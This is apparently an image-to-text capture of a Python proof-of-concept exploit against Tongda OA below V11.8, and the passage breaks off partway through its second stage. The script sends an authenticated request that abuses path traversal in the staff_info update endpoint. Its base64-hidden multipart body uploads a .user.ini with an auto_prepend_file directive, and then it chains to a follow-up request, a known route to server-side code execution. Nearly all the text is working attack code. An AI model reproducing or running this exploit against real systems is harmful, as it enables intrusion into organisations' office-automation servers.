 ```python
import requests
import sys
import random
import re
import base64
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mVersion: 通达OA < V11.8                                             \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+  \033[36mCookie      >>> xxxxxxxxxxxxxxxxxxxxxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url, Cookie):
    vuln_url = target_url + "/general/hr/manage/staff_info/update.php?USER_ID=../../general/reportshop\workshop/report/attachment-remark/.user"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8",
        "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
        "Accept-Encoding": "gzip, deflate",
        "Content-Type": "multipart/form-data; boundary=---------------------------17518323986548992951984057104",
        "Connection": "close",
        "Cookie": Cookie,
        "Upgrade-Insecure-Requests": "1",
    }
    data = base64.b64decode("LS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0xNzUxODMyMzk4NjU0ODk5Mjk1MTk4NDA1NzEwNApDb250ZW50LURpc3Bvc2l0aW9uOiBmb3JtLWRhdGE7IG5hbWU9IkFUVEFDSE1FTlQiOyBmaWxlbmFtZT0icGVpcWkuaW5pIgpDb250ZW50LVR5cGU6IHRleHQvcGxhaW4KCmF1dG9fcHJlcGVuZF9maWxlPXBlaXFpLmxvZwotLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLTE3NTE4MzIzOTg2NTQ4OTkyOTUxOTg0MDU3MTA0CkNvbnRlbnQtRGlzcG9zaXRpb246IGZvcm0tZGF0YTsgbmFtZT0ic3VibWl0IgoK5o+Q5LqkCi0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tMTc1MTgzMjM5ODY1NDg5OTI5NTE5ODQwNTcxMDQtLQ==")
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, data=data, headers=headers, verify=False, timeout=5)
        print("\033[36m[o] 正在请求 {}/general/hr/manage/staff_info/update.php?USER_ID=../../general/reportshop/workshop/report/attachment-remark/.user \033[0m".format(target_url))
        if "档案已保存" in response.text and response.status_code == 200:
            print("\033[32m[o] 目标 {} 成功上传.user.ini文件, \033[0m".format(target_url))
            POC_2(target_url, Cookie)
        else:
            print("\033[31m[x] 目标 {} 上传.user.ini文件失败\033[0m".format(target_url))
            sys.exit(0)

    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)

def POC_2(target_url, Cookie):
    vuln_url = target_url + "/general/hr/manage/staff_info/update.php?USER_ID=../../general/reportshop\workshop/report/attachment-remark/test"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8",
        "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
        "Accept-Encoding": "gzip, deflate",
        "Content-Type": "multipart/form-data; boundary=---------------------------17518323986548992951984057104",
```
